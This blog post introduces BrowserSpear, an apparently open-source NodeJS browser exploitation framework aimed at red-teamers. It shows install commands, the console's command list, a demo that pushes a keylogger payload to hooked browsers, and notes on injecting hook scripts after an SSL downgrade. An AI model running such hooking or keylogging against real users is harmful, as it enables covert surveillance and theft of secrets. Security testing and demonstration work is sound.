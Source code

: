 ```yaml
---
title: 'Introducing BrowserSpear, a Lightweight Browser Exploitation Framework for Embedded Devices'
layout: post
categories:
  - BrowserSpear
tags:
  - Browser
  - exploitation
  - javascript
  - embedded
  - cross-platform
---
```

![Intro Browserspear]({{ "/assets/intro_browserspear.jpg" | absolute_url }})

_With the rise of more IoT devices and other cheap off-the-shelf development platforms there is an opportunity to optimize the toolsets of Red-teamers, Penetration Testers and Ethical Hackers. To take full advantage of these devices we need our frameworks to be light and flexible. In this article, I want to present a tool that I built called 'BrowserSpear'. It consist of a basic framework to exploit browsers and is capable of working on all architectures with basic server capacity. Feedback is always welcome._

When demonstrating the need for network security, there are few tools that can really get the appropriate reaction and are easy enough to demo to a crowd of people without actually sending malicious code or using an exploit which might crash the device.

A great demo is to try to downgrade the security of traffic on a network from SSL to unencrypted HTTP. [We can do this](https://demgeeks.com/hackotg-v1-4-see-all-traffic-on-a-network) with tools such as [Bettercap](https://www.bettercap.org), [SSLstrip](https://moxie.org/software/sslstrip/) or another variant. After this security downgrade, it is possible to inject extra code into HTTP connections to make the website's background pink or give an alert. Just something that is very noticable to a user and that will get a reaction.

What takes this to the next level is Browser Exploitation. The very famous tool [BeEF](http://beefproject.com/) (Browser Exploitation Framework Project) can control the complete website a target loaded over an unsecure connection after an extra script is injected into it which 'hooks' the client and makes it receive commands from [BeEF](http://beefproject.com/).

## The issue

Browser Exploitation is nothing new and BeEF is a well-known tool, but it is a bit older, and needs a lot of extra dependencies. Here is were the usage of old libraries like libv8 and specific Ruby gems start to become an issue. Which makes it almost impossible to install on the newer architectures like ARM.

We see many auditing devices built on a mobile architecture such as ARM surface such as the [WiFi Pineapple](https://www.wifipineapple.com/), [Packet Squirrel](https://www.hak5.org/gear/packet-squirrel) and even [your own rooted Android smartphone](https://null-byte.wonderhowto.com/how-to/rooted-android-your-new-pentesting-tool-0159093). Which are compact tools that make a great portable and reliable platform. Using these devices on-the-go or for example a Raspberry Pi as a low-powered server in the cloud is an excellent use of these new and cheaper devices to audit networks and demonstrate attack vectors.

## So what is BrowserSpear?

>Browserspear is a lightweight framework built on the [NodeJS](https://nodejs.org/en/) engine. The complete core and modules are written in Javascript and adding payloads is as simple as writing an extra function and saving it in the 'modules' folder.

A device that has the server capacity to run NodeJS will be able to act as a server to 'spear' browsers and the complete behavior of the server can be controlled from a shell prompt or scripted beforehand.

BrowserSpear is still under development, but can be found in [this Github repo](https://github.com/larsveelaert/browserspear). The core functionalities like code delivery and hooking or 'spearing' targets are fully working.

## How to get started
With NodeJS and NPM installed (through your favourite package manager). Clone the Github-repo and install the following packages:

```
git clone https://github.com/larsveelaert/browserspear.git
npm install websockets prompt uglify-js commander
```

Starting a console session is as simple as running the script. --help will give you all the extra info you need for advanced configuration.

```
$ node browserspear.js --help
  Usage: browserspear [options]
  
  Options:
    -V, --version             output the version number
    -c, --commandfile <file>  file with commands to run in the console
    -p, --port <port>         Port to listen on
    -i, --ip <ip>             The ip address to use in the reverse connection
    -s, --start               Start a listener immediatly
    -h, --help                output usage informatio
```

In the BrowserSpear console. You can get a list of available commands by typing 'help'. Here is an extract:

```
>>> help
Available commands:
- start | restart 
	Restarts the server that serves the spear and provides the socket to connect to
- set <property> <value>
      Sets a value used by the server or module. ex. 'set LHOST: mydomain.org'
- options
      List all the values of the options.
- load <module>
      Loads the functions inside that module. Only one module can be selected at once. ex. 'load keylogger'
- modules <search>
      Gives a list of all available modules, with an optional searchterm.
- exec
      Executes the 'exec' function of the current selected module. Ex. send a payload
- conns
      List all connections to the server
- help
      Print this help.
```

The default address of the spear is localhost:1337. So navigating to this address on you local device running the server (started with start). Would give you the following output:

```
>>> start
>>> Tue Jan 02 2018 14:11:14 GMT+0000 (UTC) Server is listening on port 1337
New connection to client at ::1
>>> conns
List of connections:
 [0] ::1
```

Now we can load a module, for example an attack that logs all keystrokes in that browser called a keylogger. By default, the attack is sent to all the clients connected. The client will then record the keystrokes and send them to the server. The attack will stay active, even if the server is restarted or the module is unloaded.

```
>>> load keylogger
>>> keylogger: exec
Payload sent
>>> keylogger: 
https://www.linkedin.com/redir/invalid-link-page?url=%5B%3A%3A1%5D KEYLOGGER:I will now tell you all my secrets
```

Thats it for the basic usage. As you have control over the full webpage. There is no limit on what you can do within the constraints of Javascript. There are already known attacks to get persistance on the full-domain, cross-domain and even cross-browser.

Looking forward to the [Progressive Web Applications](https://developers.google.com/web/progressive-web-apps/). There is a need to correctly mitigate against this attack vector because the native API's already available in the browser are quite powerful and can be easily used against the user (ex. HTML5 webcam, Mic, GPS, Contacts, File access, ...). The ever smaller gap between online and offline will create a need for strong security analysis so system access can be strictly controlled.

## Goals and Roadmap
BrowserSpear will keep expanding it's capabilities aiming towards connection types (including obfiscation/evasion) and pre-configured payloads to make the complete framework very easy to use and very 'hackable'.

As it is an open-source project, development will happen through [its Github page](https://github.com/larsveelaert/browserspear). Please feel free to contact me for more info, give feedback or even help to develop the project to its full potential.

Happy spearing!
